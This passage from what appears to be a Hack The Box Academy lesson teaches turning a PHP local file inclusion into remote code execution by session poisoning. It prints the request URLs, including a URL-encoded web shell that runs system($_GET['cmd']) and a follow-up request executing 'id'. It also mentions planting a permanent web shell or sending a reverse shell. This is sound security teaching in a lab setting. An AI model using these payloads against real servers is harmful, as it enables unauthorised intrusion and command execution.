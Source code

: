 ```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

![](https://academy.hackthebox.com/storage/modules/23/rfi_session_include.png)

**Note:** As you may easily guess, the cookie value will differ from one session to another, so you need to use the cookie value you find in your own session to perform the same attack.

We can see that the session file contains two values: `page`, which shows the selected language page, and `preference`, which shows the selected language. The `preference` value is not under our control, as we did not specify it anywhere and must be automatically specified. However, the `page` value is under our control, as we can control it through the `?language=` parameter.

Let's try setting the value of `page` a custom value (e.g. `language parameter`) and see if it changes in the session file. We can do so by simply visiting the page with `?language=session_poisoning` specified, as follows:


```url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

Now, let's include the session file once again to look at the contents:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

![](https://academy.hackthebox.com/storage/modules/23/lfi_poisoned_sessid.png)

This time, the session file contains `session_poisoning` instead of `es.php`, which confirms our ability to control the value of `page` in the session file. Our next step is to perform the `poisoning` step by writing PHP code to the session file. We can write a basic PHP web shell by changing the `?language=` parameter to a URL encoded web shell, as follows:


```url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Finally, we can include the session file and use the `&cmd=id` to execute a commands:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

![](https://academy.hackthebox.com/storage/modules/23/rfi_session_id.png)

Note: To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten with `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` after our last inclusion. Ideally, we would use the poisoned web shell to write a permanent web shell to the web directory, or send a reverse shell for easier interaction.

---

## Server Log Poisoning
